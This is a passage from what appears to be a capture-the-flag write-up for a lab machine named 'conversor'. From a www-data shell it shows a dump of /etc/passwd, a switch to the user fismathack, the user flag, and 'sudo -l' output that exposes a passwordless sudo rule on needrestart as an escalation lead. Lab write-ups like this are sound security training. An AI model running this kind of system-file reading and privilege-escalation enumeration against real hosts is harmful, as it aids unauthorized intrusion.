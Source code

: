 ```
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
syslog:x:106:113::/home/syslog:/usr/sbin/nologin
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
tss:x:109:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:110:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:111:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fismathack:x:1000:1000:fismathack:/home/fismathack:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
www-data@conversor:~/conversor.htb/instance$ ls /home
fismathack
```
## Shell as fismathack

### user.txt
change as user `fismathack`
```
www-data@conversor:/home$ su fismathack
Password: 
fismathack@conversor:/home$ cat fismathack/user.txt 
427c265281e11bbd9fe920e9c62fe1ed
```

### discovery

First we find `fismathack` can run **/usr/sbin/needrestart** as `sudo` without needing password
```
fismathack@conversor:/home$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```
